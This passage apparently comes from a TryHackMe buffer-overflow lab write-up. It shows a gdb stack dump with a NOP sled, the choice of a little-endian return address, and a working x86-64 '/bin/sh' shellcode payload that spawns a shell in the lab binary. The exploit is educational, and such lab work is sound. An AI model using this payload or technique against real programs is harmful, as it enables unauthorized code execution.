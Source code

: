```sh
Program received signal SIGSEGV, Segmentation fault.                                                                
0x0000000000400595 in main ()                                                                                       
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe656      0x00007fff      0x90909090      0x90909090
0x7fffffffe258: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe268: 0x90909090      0x90909090      0x90909090      0x90909090 <---- e.g. here 
0x7fffffffe278: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe288: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe298: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe2a8: 0x90909090      0x90909090      0x90909090      0x622fb948
0x7fffffffe2b8: 0x732f6e69      0xc1481168      0xc14808e1      0x485108e9
0x7fffffffe2c8: 0x48243c8d      0x3bb0d231      0x4242050f      0x42424242
0x7fffffffe2d8: 0x42424242      0x43434242      0x43434343      0x00007f00
0x7fffffffe2e8: 0x00400590      0x00000000      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0xdb621c60      0x310de389      0x00400450      0x00000000
0x7fffffffe348: 0xffffe3e0      0x00007fff      0x00000000      0x00000000
0x7fffffffe358: 0x00000000      0x00000000      0x16021c60      0xcef21cf6
0x7fffffffe368: 0x8fe61c60      0xcef20c41      0x00000000      0x00000000
0x7fffffffe378: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe388: 0xffffe400      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffe398: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffe3a8: 0x00000000      0x00000000      0x00000000      0x00000000
```

pick ANY address where you see a bunch of `0x90909090` in the columns.

I choose: `0x7fffffffe268` we need to convert to little endian: `\x68\xe2\xff\xff\xff\x7f`

### payload + shellcode return address

:::danger

DONT use the shellcode from the THM ROOM, it's all shit & doesn't work. 

Use l1ge's one instead.

:::

run it in gdb:

```sh
(gdb) run $(python -c "print '\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x68\xe2\xff\xff\xff\x7f'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print '\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x68\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
����������������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�BBBBBBBBBBBBh����
process 3468 is executing new program: /usr/bin/bash
sh-4.2$ ls
Detaching after fork from child process 3476.
buffer-overflow  buffer-overflow.c  secret.txt
sh-4.2$ whoami
Detaching after fork from child process 3477.
```
